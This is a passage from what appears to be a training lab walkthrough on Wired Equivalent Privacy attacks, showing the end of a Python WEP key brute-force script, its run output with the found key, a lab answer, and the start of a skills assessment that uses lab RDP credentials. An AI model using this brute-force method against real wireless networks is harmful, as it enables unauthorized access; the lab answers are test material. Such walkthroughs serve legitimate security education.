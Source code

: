 ```python
        print(f"Total time: {end_time - start_time:.6f} seconds")
        sys.exit(0)

# If no key was found
print("No WEP key found")
```

Subsequently, students will execute the Python3 script as root to retrieve the WEP key:

Code: shell

```shell
sudo python3 brute.py
```

```
wifi@WiFiIntro:~$ sudo python3 brute.py

Success! WEP key found: {hidden}
Total time: 8.176249 seconds
```

Answer: `xampp`

# Wired Equivalent Privacy Attacks - Skills Assessment

## Question 1

### "What is the name of the target BSSID?"

After spawning the target, students will establish an RDP connection using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.128]─[htb-ac-8414@htb-splgsker1o]─[~]
└──╼ [★]$ xfreerdp /v:10.129.231.118 /u:wifi /p:wifi /dynamic-resolution 

[05:42:58:428] [36074:36075] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[05:42:58:728] [36074:36075] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:42:58:728] [36074:36075] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:42:58:742] [36074:36075] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:42:58:742] [36074:36075] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[05:42:58:742] [36074:36075] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

